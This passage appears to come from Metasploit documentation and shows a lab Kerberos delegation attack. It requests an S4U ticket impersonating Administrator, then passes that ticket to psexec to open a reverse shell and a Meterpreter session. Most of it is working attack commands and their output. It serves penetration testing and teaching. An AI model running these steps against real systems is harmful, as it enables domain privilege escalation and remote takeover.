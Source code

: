 Next we can use the `auxiliary/admin/kerberos/get_ticket` module to request a new S4U impersonation ticket for the Administrator
account using the previously created machine account. For instance requesting a service ticket for SMB access:

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhost=192.168.159.10 username=DESKTOP-QLSTR9NW password=A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT domain=msflab.local spn=cifs/ws01.msflab.local impersonate=Administrator
[*] Running module against 192.168.159.10

[+] 192.168.159.10:88 - Received a valid TGT-Response
[*] 192.168.159.10:88 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_533930.bin
[*] 192.168.159.10:88 - Getting TGS impersonating Administrator@msflab.local (SPN: cifs/ws01.msflab.local)
[+] 192.168.159.10:88 - Received a valid TGS-Response
[*] 192.168.159.10:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_962080.bin
[+] 192.168.159.10:88 - Received a valid TGS-Response
[*] 192.168.159.10:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin
[*] Auxiliary module execution completed
```

The saved TGS can be used in a pass-the-ticket style attack. For instance using the `exploit/windows/smb/psexec` module for a reverse shell:

```msf
msf6 exploit(windows/smb/psexec) > run lhost=192.168.123.1 rhost=192.168.159.10 username=Administrator smb::auth=kerberos smb::rhostname=ws01.msflab.local domaincontrollerrhost=192.168.159.10 smbdomain=msflab.local smb::krb5ccname=/Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.159.10:445 - Connecting to the server...
[*] 192.168.159.10:445 - Authenticating to 192.168.159.10:445|msflab.local as user 'Administrator'...
[*] 192.168.159.10:445 - Loaded a credential from ticket file: /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin
[*] 192.168.159.10:445 - Selecting PowerShell target
[*] 192.168.159.10:445 - Executing the payload...
[+] 192.168.159.10:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.159.10
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.159.10:60755) at 2023-02-22 10:00:01 +0000

meterpreter >
```
